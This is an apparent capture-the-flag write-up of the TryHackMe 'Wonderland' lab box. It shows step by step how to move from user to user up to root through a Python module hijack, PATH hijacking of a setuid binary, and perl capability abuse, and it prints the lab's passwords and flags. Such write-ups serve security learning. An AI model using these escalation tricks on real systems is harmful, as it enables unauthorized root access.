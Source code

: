 ```yaml
---
layout: post
title:  "THM - Wonderland"
date:   2020-07-09 18:00:00 +1000
category: hacking
---
```


## Introduction
*Enter Wonderland and capture the flags.*  

This is a medium ranked 'Alice in Wonderland' themed box. Let's begin.

## Ports
nmap says we've got 22 (SSH) and 80 (HTTP) only.  

## Webserver
*Follow the White Rabbit.*  
*"Curiouser and curiouser!" cried Alice (she was so much surprised, that for the moment she quite forgot how to speak good English)*

There is also a picture of the white rabbit from the story.

Running a gobuster on the homepage reveals an 'r' sub-directory, and a little intuition quickly reveals that there is a whole sequence of directories that looks like this:

>http://10.10.33.51/r/a/b/b/i/t

Actually we can also run steghide on the picture of the white rabbit from the front page with no password, and get the following hint: *follow the r a b b i t* (note the spaces!).

On the last directory, we get some more slightly cryptic text from the novel, and a picture of Alice. If we view the page source, we can see this:

>**alice:HowDothTheLittleCrocodileImproveHisShiningTail**

which are SSH credentials for user Alice.

## SSH
When we SSH in, we can run *sudo -l* and find out that Alice can run a python script as the user rabbit:

``
alice@wonderland:/dev/shm$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
``

The script is owned by root, so we can't edit it. However, when we look inside we can see it imports the 'random' module.

## The import trick
When we run a python import, the first place that python will look for the module to be imported is in the *same* directory that the script being run is in. So, we can make a *random.py* file in the directory with the script, and it will be imported instead of the 'real' random module.

The contents can be as simple as this:

>import os  
os.system("/bin/bash")

And next thing you know we're no longer alice, now we are rabbit.

## Rabbit
>rabbit@wonderland:/home/rabbit$ ls -lash  
snip
 20K -rwsr-sr-x 1 root   root    17K May 25 17:58 teaParty  
rabbit@wonderland:/home/rabbit$ file teaParty  
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

As shown above, the user 'rabbit' has access to a custom binary called **teaParty** that is owned by root and which runs as the user 'hatter'.

Like using a sledgehammer to crack a walnut, we can disassemble the program with Ghidra, and the source is:

>void main(void)  
{  
  setuid(0x3eb);  
  setgid(0x3eb);  
  puts("Welcome to the tea party!\nThe Mad Hatter will be here soon.");  
  system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");  
  puts("Ask very nicely, and I will give you some tea while you wait for him");  
  getchar();  
  puts("Segmentation fault (core dumped)");  
  return;   
}  

So we can see it calls the Linux binary 'date' without a path, so we can create our own version of date and use that instead, very much like we did with the python module in the previous step. We begin by making a shell script called **date** in /dev/shm with the contents:

>#!/bin/bash  
echo "hatter incoming"  
/bin/bash  

Next, we append /dev/shm to our path:

``
rabbit@wonderland:/home/rabbit$ export PATH=/dev/shm:$PATH
``

And call ./teaParty. Boom, we are now 'hatter'.

## Hatter
Hatter has a file called 'password.txt' in his home directory, so now we can su as hatter from the other accounts if we want. The password is *WhyIsARavenLikeAWritingDesk?*

We can run linenum, and it doesn't show us *much*, but it does show this:

>[+] Capabilities  
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities  
/usr/bin/perl5.26.1 = cap_setuid+ep  
/usr/bin/mtr-packet = cap_net_raw+ep  
/usr/bin/perl = cap_setuid+ep  

Remember in Mindgames I said it's okay not to know everything, but it's good to learn something? Well, this looks *quite a lot* like the Mindgames privesc.

This [article](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) explains it, and provides an example command for perl (which we need to modify slightly).

``
./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
``

When we do this:

``
hatter@wonderland:~$ ls -al /usr/bin/perl
``

We can see that the user 'hatter' can run perl as root.  

>-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl

Since that's us, let's try:

>hatter@wonderland:~$ /usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'  
root@wonderland:~#

And we're home and done. The flags are in /root.user.txt and /home/alice/root.txt

>home/alice/root.txt:thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}  
root/user.txt:thm{"Curiouser and curiouser!"}

## Summary
I enjoyed this box, it was a nice series of exploits moving from one user to another. Well done **NinjaJc01**

